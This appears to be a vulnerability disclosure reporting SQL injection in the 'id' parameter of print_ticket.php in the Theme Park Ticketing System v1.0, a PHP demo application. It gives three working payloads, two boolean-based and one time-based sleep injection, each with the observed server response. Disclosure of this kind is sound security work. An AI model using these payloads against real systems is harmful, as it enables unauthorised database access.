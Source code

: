 # Theme Park Ticketing System v1.0 has SQL injection

BUG_Author: dengbaihao

Website source code address: https://www.sourcecodester.com/php/14613/theme-park-ticketing-system-using-phpmysqli-source-code.html

Vulnerability File: /tpts/print_ticket.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1 AND 666=666

The Boolean value is judged correctly, so the page output is normal.

![image](https://github.com/XIAONIGM/CVEReport/blob/main/3.png)

Payload2:id=1 AND 666=999

The Boolean value judgment is wrong, so the page output is abnormal.

![image](https://github.com/XIAONIGM/CVEReport/blob/main/4.png)

Payload3:id=1 and (select 2 from (select(sleep(10)))c)

The time injection is successful, and the response from the server is 10 seconds.

![image](https://github.com/XIAONIGM/CVEReport/blob/main/5.png)

